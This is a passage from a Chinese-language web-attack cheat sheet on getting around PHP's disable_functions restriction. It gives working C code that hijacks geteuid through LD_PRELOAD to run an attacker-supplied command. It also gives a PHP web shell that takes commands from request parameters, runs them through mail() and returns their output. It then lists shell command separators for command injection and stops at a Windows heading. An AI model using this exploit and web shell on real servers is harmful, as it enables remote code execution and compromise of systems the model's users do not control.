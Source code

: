 ```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int geteuid() {
    const char *cmd = getenv("cmd");
    if(getenv("LD_PRELOAD") == NULL) {
        return 0;
    }
    unsetenv("LD_PRELOAD");
    system(cmd);
}
```

编译为`2.so`文件

上传一个`2.php`

```php
<?php
putenv("LD_PRELOAD=./2.so");
$out_path = './out.txt';
$cmd = $_REQUEST['cmd'];
$evil_cmd = $cmd.' > '.$out_path.' 2>&1';
echo $evil_cmd;
putenv("cmd=$cmd");
mail("", "", "", "");
echo file_get_contents($out_path);
?>
```

#### imagick（扩展）

### 蚁剑绕过

加载插件->辅助工具->绕过 disable_functions

## 操作系统连接符

### Linux

- `;`：多命令顺序执行

- `&`：多命令顺序执行

- `&&`：多命令逻辑与，前面的命令执行成功才执行后面的命令

- `|`：管道输出符，将前面的命令的输出作为后面的命令的输入，把前面命令的结果当成后面命令的参数。会执行，但是只会输出最后一个命令的结果

  - 例：`echo "ls -l" | /bin/bash`

- `||`：多命令逻辑或，前面的命令执行失败才执行后面的命令

- `%0a`：换行

### Windows
